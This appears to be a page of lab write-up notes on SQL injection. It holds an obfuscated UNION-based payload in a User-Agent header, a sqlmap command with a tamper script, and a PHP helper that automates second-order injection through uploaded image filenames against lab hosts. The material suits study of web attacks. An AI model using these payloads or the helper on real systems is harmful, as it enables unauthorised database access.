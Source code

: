 ```bash
GET / HTTP/1.1
Host: 10.sqli.labs
User-Agent: \') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -
```
SQLMap Automation:
```bash
sqlmap -u 'http://10.sqli.labs/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/fill.py --prefix="notexistant')" --suffix="; -- " --union-char=els --banner
```

# 2nd Order SQLi
In these labs, the injection occurs in the filename of an image which is posted to the website, hence, it is a 2nd order SQLi with a POST as the first request (img to website) and then a get as the second request (get the filename which triggers the injection). SQLMap supports 2nd order GET-GET but not POST-GET, so we need to automate the first step which sends the sqlmap payload as the filename and then gets the corresponding image. To do so we can host a php scrip (views.php which follows) on our website which will take care of posting the image to the website so that sqlmap can then simply get the payload it needs. 
Code is as follows:
```php
# view.php
<?php

if(empty($_GET['payload'])) die("The payload please!!");
/*********************
 CONFIGURATIONS
*********************/
# File name aka SQLi Payload
$payload = $_GET['payload'];
# Target POST aka where to upload the images
$injectionURL = 'http://selfie4you.site/upload.php';
# Target GET aka page with the results of the SQLi (GET)
$resultsURL = "http://selfie4you.site/view.php?file=".urlencode($payload);
# IMG to upload (b64 encoded)
$img = '/9g=';

/******************************************/

/*********************
 POST GENERATOR
*********************/
# We have to build a custom HTTP Post request with our payload as filename
# (Form-base File Upload in HTML - RFC1867)

# Boundary for the multipart POST
$boundary = "2ndOrderPAYLOAD";

# Decode the data
$img_raw = base64_decode($img);

// Data POST body
$postbody = <<<POSTBODY
--{$boundary}
Content-Disposition: form-data; name="file"; filename="{$payload}" Content-Type: image/jpeg

{$img_raw}

--{$boundary}--

POSTBODY;

```
